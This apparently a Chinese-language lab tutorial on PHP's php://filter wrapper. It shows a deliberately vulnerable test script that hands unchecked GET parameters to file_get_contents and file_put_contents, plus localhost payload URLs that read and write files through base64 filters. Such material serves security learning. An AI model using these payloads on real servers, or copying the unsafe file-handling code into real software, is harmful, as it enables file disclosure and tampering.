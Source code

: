 | 名称 | 描述 |
| --- | --- |
| resource=<要过滤的数据流> | 这个参数是必须的。它指定了你要筛选过滤的数据流。 |
| read=<读链的筛选列表> | 该参数可选。可以设定一个或多个过滤器名称，以管道符（&#124;）分隔。 |
| write=<写链的筛选列表> | 该参数可选。可以设定一个或多个过滤器名称，以管道符（&#124;）分隔。 |
| <；两个链的筛选列表> | 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。 |

### 使用
根据上述介绍的 使用方法，使用如下测试代码，来进行测试
```php
<?php
	if (isset($_GET['file1'])){
		$file1 = $_GET['file1'];
		echo file_get_contents($file1);
	}else if(isset($_GET['file2']) && isset($_GET['txt'])){
		$file2 = $_GET['file2'];
		$txt = $_GET['txt'];
		file_put_contents($file2,$txt);
	}else{
		echo 'by aaron test';
	}
?>
```
#### 读取文件
```shell
# payload 明文读取
http://localhost/test.php?file1=testfile.txt
# payload 编码读取，这里使用base64编码
http://localhost/test.php?file1=php://filter/read=convert.base64-encode/resource=testfile.txt
```
![image.png](./phpfilter协议利用.assets/2023_05_19_10_41_43_dNKeCiU2.png)
![image.png](./phpfilter协议利用.assets/2023_05_19_10_41_43_WarQHM9G.png)
![image.png](./phpfilter协议利用.assets/2023_05_19_10_41_43_J0ky3XZw.png)
#### 写入文件
```shell
# payload 明文写入
http://localhost/test.php?file2=testfile.txt&txt=123456+by+aaron
# payload 编码写入，这里使用base64 编码
http://localhost/test.php?file2=php://filter/write=convert.base64-encode/resource=testfile.txt&txt=123456+by+aaron
```
![image.png](./phpfilter协议利用.assets/2023_05_19_10_41_44_zXIAlYyd.png)
![image.png](./phpfilter协议利用.assets/2023_05_19_10_41_44_4PL5sNra.png)